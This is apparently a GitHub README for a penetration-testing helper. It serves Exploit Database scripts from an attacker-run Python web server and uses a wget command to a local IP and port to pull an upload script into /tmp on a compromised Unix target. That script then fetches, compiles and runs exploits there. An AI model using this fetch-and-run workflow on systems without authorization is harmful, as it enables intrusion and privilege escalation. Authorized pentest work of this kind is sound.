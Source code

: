 # Exploit Database Upload
The purpose of this is to make the process of uploading exploit database scripts to a target machine. The local script will make 
the webserver and the upload files will curl and compile/run the files (written to /tmp).

## Purpose and usage
This is built to work in a pentest of most unix devices. The host system I use is kali linux, but any machine with SimpleHTTPServer 
(python) installed should work. The upload file pulls from a server running this way, so modification will have to happen (port) to 
get it working its best.

## Instructions

**Local**
Run the local file
```
bash local.sh
```
**Remote**
Upload the 'upload' file to /tmp. I'll give the example of using a webserver
```
wget *ip*:*port*/*file* > /tmp/upload.py
```
Example
```
wget 192.168.1.6:8000/upload.py > /tmp/upload.py
```
The upload.py file will already be hosted on the server to start with, so this method should be simple.
The rest of the program should be fairly simple to use after running
```
cd /tmp
python3 upload.py
```
The program may work in python 2, but the functionality is not as good as I would like it to be. Please use python 3.
